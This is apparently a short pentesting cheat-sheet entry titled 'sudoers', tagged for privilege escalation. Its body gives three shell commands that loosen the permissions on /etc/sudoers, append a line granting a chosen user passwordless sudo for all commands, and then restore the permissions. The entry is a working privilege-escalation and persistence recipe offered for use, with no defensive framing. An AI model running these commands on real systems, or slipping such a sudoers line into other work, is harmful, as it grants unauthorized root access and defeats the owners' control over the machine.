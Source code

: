 ```yaml
---
title: "sudoers"
date: 2024-7-3
tags: ["sudoers", "sudo", "privesc", "/etc/sudoers"]
---
```


---
### Privesc

#### Abuse `/etc/sudoers`

```bash
# IF you have control over `/etc/sudoers`
chmod 600 /etc/sudoers
```

```bash
echo '<USER>   ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```

```bash
chmod 440 /etc/sudoers
```

<br>
